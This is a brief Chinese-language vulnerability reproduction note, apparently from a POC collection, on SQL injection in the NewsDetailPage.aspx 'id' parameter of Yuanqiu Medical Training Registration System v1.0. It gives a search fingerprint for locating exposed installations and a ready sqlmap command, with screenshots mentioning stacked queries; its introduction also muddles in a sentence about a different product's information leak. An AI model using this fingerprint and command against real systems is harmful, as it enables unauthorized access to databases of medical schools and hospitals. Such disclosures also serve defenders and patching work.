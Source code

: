 # 远秋医学培训报名系统v1.0 NewsDetailPage存在SQL注入漏洞

# 一、漏洞简介
远秋医学在线考试系统采用通用的试题库管理软件，适用于各级各类医学院校和医院。远秋医学在线考试系统某接口存在未授权信息泄露漏洞，攻击者可利用该漏洞获取数据库敏感信息。远秋医学培训报名系统v1.0 NewsDetailPage存在SQL注入漏洞

# 二、影响版本
+ 远秋医学培训报名系统v1.0

# 三、资产测绘
```plain
title="远秋医学培训报名系统v1.0"
```

![1718993325214-398499d2-2af5-4412-88af-a1260ffee33c.png](./img/22HsGx4nQsThBnpU/1718993325214-398499d2-2af5-4412-88af-a1260ffee33c-296659.png)

# 四、漏洞复现
```java
python3 sqlmap.py -u "http://127.0.0.1/NewsDetailPage.aspx?key=news&id=7" --batch
```

![1718994328603-cd1448e2-a900-4be9-98c7-866fd3dc3120.png](./img/22HsGx4nQsThBnpU/1718994328603-cd1448e2-a900-4be9-98c7-866fd3dc3120-208793.png)

stacked queries

![1718994346902-a7e365cb-368e-4050-9a4e-a1f5527cb372.png](./img/22HsGx4nQsThBnpU/1718994346902-a7e365cb-368e-4050-9a4e-a1f5527cb372-205010.png)



> 更新: 2024-06-23 23:40:49  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fn5a1ryltdg50eik>